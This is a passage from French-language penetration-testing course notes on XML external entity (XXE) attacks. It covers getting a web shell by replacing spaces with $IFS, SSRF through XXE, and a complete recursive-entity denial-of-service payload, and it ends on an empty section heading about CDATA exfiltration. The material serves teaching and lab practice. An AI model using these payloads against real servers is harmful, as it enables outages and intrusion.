 Pour ne pas casser la syntaxe XML, remplacer les espaces par `$IFS` et éviter certains caractères (`|`, `>`, `{`). Si la requête réussit, on peut recevoir et interagir avec le **web shell** sur le serveur distant. Comme le module `expect` n’est pas toujours activé, XXE sert surtout à **lire des fichiers sensibles** et découvrir d’autres vulnérabilités.

***

### <mark style="color:blue;">Other XXE Attacks</mark>

Une autre attaque courante souvent réalisée par le biais de vulnérabilités XXE est l'exploitation de SSRF (Server-Side Request Forgery), qui est utilisée pour énumérer les ports ouverts localement et accéder à leurs pages, ainsi qu'à d'autres pages web restreintes, via la vulnérabilité XXE. Le module des attaques côté serveur couvre en détail SSRF, et les mêmes techniques peuvent être appliquées avec des attaques XXE.\
Enfin, un usage courant des attaques XXE est de provoquer une **Déni de Service (DOS)** au serveur web hébergeant l'application, en utilisant le **payload** suivant :

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

Ce payload définit l'entité a0 comme étant "DOS", la référence plusieurs fois dans a1, puis dans a2, et ainsi de suite, jusqu'à ce que la mémoire du serveur back-end soit épuisée à cause des boucles de références récursives. Cependant, cette attaque ne fonctionne plus avec les serveurs web modernes (par exemple, Apache), car ils se protègent contre les auto-références d'entités. Essayez cette attaque contre cet exercice pour voir si elle fonctionne.

***

## <mark style="color:red;">Advanced File Disclosure</mark>

***

### <mark style="color:blue;">Advanced Exfiltration with CDATA</mark>
